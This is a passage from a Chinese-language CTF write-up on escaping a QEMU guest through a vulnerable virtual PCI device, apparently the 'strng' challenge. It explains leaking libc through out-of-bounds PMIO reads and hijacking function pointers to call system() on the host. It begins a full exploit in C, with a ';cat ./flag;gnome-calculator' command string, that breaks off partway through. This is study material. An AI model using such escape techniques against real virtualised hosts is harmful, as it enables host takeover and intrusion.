 ```c
    int   mmio_fd;
    long  val;
    //...
    mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0",
            O_RDWR | O_SYNC);
    if (mmio_fd < 0) {
        errExit("failed to open mmio file! wrong path or no root?");
    }

    mmio_addr = (uint64_t)
            mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_addr == MAP_FAILED) {
        errExit("failed to mmap mmio space!");
    }

    val = mmio_read(mmio_addr);
    mmio_write(mmio_addr + 4, 0xbeefdead);
```

> 注：我们也可以通过映射 `/sys/devices/pci0000:00/0000:00:03.0/resource1` 文件的形式来以内存读写的形式完成 PMIO。

### 漏洞利用

由于 PMIO read 功能的读取地址由 `(unsigned int *)opaque[700]` 决定，而该值可以通过PMIO write 写入 `addr == 0` 处进行修改，由于题目一开始便在 `opaque` 靠后的放置了一些函数指针，因此我们可以通过读取这些函数指针泄露 libc 基址。

同样地，当 `addr == 4` 时，PMIO write 会向指定地址 + 偏移处写入数据，而该偏移值为我们可控的  `(unsigned int *)opaque[700]`，因此我们可以非常方便地劫持 `opaque` 上的函数指针，而这些函数指针又可以通过 MMIO write 与 PMIO write 进行触发，因此不难想到的是我们可以通过劫持这些函数指针来完成控制流劫持。

当 `(unsigned int *)opaque[700] == 3` 时，调用函数指针会传入一个 `opaque` 上地址作为第一个参数，而该处数据同样是我们可控的，因此我们可以在该处先写入字符串后再劫持函数指针为 `system()` 后直接调用即可完成 Host 上的任意命令执行。

完整 exp 如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdint.h>
#include <sys/io.h>

#define STRNG_MMIO_REGS 64
#define STRNG_MMIO_SIZE (STRNG_MMIO_REGS * sizeof(uint32_t))

#define STRNG_PMIO_ADDR 0
#define STRNG_PMIO_DATA 4
#define STRNG_PMIO_REGS STRNG_MMIO_REGS
#define STRNG_PMIO_SIZE 8

char calc_str[0x100] = ";cat ./flag;gnome-calculator";
char sh_str[0x100] = "/bin/sh";

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void mmio_write(uint32_t *addr, uint32_t val)
{
    *addr = val;
}

uint32_t mmio_read(uint32_t *addr)
```